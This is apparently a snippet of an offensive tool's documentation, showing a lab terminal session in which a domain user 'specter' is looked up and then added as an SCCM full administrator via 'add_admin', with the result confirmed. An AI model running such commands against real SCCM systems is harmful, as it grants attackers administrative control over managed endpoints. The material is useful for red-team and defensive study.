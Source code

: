 ```
[06:53:13 PM] INFO     [+] User found.                                                                                                                       
[06:53:14 PM] INFO     ------------------------------------------                                                                                            
                       DistinguishedName: CN=specter,OU=DOMUSERS,DC=internal,DC=lab                                                                          
                       FullDomainName: INTERNAL.LAB                                                                                                          
                       FullUserName: specter                                                                                                              
                       Mail:                                                                                                                                 
                       NetworkOperatingSystem: Windows NT                                                                                                    
                       ResourceId: 2063597574                                                                                                                
                       sid: S-1-5-21-2391214593-4168590120-2599633397-1109                                                                                   
                       UniqueUserName: lab\specter                                                                                                           
                       UserAccountControl: 66048                                                                                                             
                       UserName: specter                                                                                                           
                       UserPrincipalName: specter@internal.lab                                                                                        
                       ------------------------------------------                                                                                            
() (C:\) >> add_admin specter S-1-5-21-2391214593-4168590120-2599633397-1109
[06:53:19 PM] INFO     Tasked SCCM to add specter as an administrative user.                                                                                 
[06:53:19 PM] INFO     [+] Successfully added specter as an admin.                                                                                           
() (C:\) >> show_admins 
[06:53:20 PM] INFO     Tasked SCCM to list current SMS Admins.                                                                                               
[06:53:20 PM] INFO     Current Full Admin Users:                                                                                                             
[06:53:20 PM] INFO     lab\Administrator                                                                                                                     
[08:46:39 PM] INFO     specter 


```


## References
Author, Title, URL